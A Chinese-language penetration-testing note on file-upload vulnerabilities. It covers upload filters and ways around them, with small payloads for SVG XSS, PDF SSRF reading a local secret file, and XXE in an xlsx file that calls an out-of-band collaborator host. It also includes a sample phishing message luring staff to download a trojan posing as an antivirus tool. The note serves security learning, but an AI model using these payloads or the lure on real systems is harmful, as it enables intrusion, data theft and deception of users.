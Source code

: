 
## 检测方法

waf、rasp 对上传文件的检测方法有这几种
- 后缀检测(黑白名单)
- 文件内容检测
- Content-Type 检测
- 后端二次渲染(图片裁剪、图片水印)

---

## 利用方式

### 网站脚本文件

如 asp、aspx、jsp、php 后缀的网站脚本文件，通过访问上传的 webshell 执行系统命令，获取服务器权限。

### 可造成 XSS 或跳转的钓鱼文件

- html
- svg
    ```html
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
    ```
- pdf
    xss
    ```
    app.alert('XSS');
    ```

    ssrf
    ```
    <link rel=attachment href="file:///root/secret.txt">
    ```
- xml

### 服务器可执行文件(PE、sh)

配合社工手段,例如 : 最近办公内网发现大量勒索病毒,信息科紧急部署了新版杀毒引擎,请各部门人员立即下载,下载地址: www.xxx.com/upload/木马查杀工具.exe

### mp4、avi

配合 ffmpeg 漏洞

### shtml

ssi 注入

### xlsx

XXE

1. 创建一个 xlsx 文档，更改后缀为 zip，解压。
2. 打开 Burp Suite Professional，单击 Burp 菜单并选择 “Burp Collaborator client” 将其打开, 复制到粘贴板。
3. 找到 Content_Types.xml 文件，插入 xxe 代码到文件中。
    ```xml
    <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://xxx.burpcollaborator.net"> ]>
    <x>&xxe;</x>
    ```
4. 重新压缩为 zip 文件，更改后缀为 xlsx。上传 xlsx 文档到目标服务器，如果没有禁用外部实体，就会存在 XXE 漏洞，burp 接收到请求。
